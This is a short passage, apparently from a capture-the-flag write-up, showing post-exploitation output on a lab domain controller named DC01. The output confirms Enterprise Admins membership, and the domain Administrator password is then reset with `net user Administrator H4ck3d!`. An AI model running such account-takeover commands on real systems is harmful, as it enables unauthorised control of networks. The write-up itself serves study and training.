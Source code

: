 ```
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                         Type             SID                                         Attributes
================================================== ================ =========================================== ===============================================================
SOUPEDECODE\Domain Computers                       Group            S-1-5-21-2986980474-46765180-2505414164-515 Mandatory group, Enabled by default, Enabled group
Everyone                                           Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access         Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                      Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators ←                           Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                               Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                   Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                     Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
SOUPEDECODE\Enterprise Admins ←                    Group            S-1-5-21-2986980474-46765180-2505414164-519 Mandatory group, Enabled by default, Enabled group
SOUPEDECODE\Denied RODC Password Replication Group Alias            S-1-5-21-2986980474-46765180-2505414164-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication                   Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level               Label            S-1-16-12288
```

`hostname`:
```
DC01 ←
```

`net user Administrator H4ck3d!`:
```
The command completed successfully. ←
```

`exit`

<div>
